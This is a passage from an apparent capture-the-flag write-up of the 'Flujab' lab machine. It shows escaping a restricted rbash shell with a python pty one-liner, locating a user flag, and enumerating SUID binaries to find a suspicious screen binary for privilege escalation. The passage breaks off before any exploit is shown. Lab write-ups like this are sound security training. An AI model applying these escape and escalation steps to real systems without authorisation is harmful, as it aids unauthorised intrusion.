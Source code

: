 Finally!! What a journey to get a shell. Unfortunately, we're thrown into a rbash shell that is quite restricted:

```text
sysadm@flujab:~$ cd ..
-rbash: cd: restricted

sysadm@flujab:~$ /bin/bash
-rbash: /bin/bash: restricted: cannot specify `/' in command names
```

The python method for upgrading our shell works for us as it often does:

```text
sysadm@flujab:~$ python -c 'import pty;pty.spawn("/bin/bash")'
sysadm@flujab:~$ echo $0
/bin/bash
```

We've escaped rbash and are now using a bash shell. All this, and we still don't have a user flag though. We're logged in as sysadm and the flag isn't in his home directory. I goto the /home directory and run:

```text
ls -lah */user.txt
```

This lists the user.txt file for ever user who has a home directory. We know from enumeration before they all have it, but now we see the size and the date last modified. The user "drno" sticks out again as he's the only user who's user.txt file was modified recently. All other users have the same modification date. He has to be our target for user.

This is where I deviated a little bit from the intended path as I ended up getting root first, then user. I know others ended up cracking drno's private key to get in as him, but I didn't. I began to do my typical enumeration for privilege escalation opportunities. It's always wise to look for SUID binaries that run as root regardless of which user executes it:

```text
sysadm@flujab:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/local/share/screen/screen
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/screen
/usr/bin/gpasswd
/usr/bin/sudo
/bin/su
/bin/umount
/bin/mount
/bin/ping
```

Many of these are normal system binaries where SUID is required, but "/usr/local/share/screen/screen" stood out. Mainly because there were two screen binaries and this one isn't in the usual place. I did some research on why screen is typically set with the SUID bit (it's for multi-user screen sessions), so it seems to be commonplace. Running the screen in PATH, gave me an error:
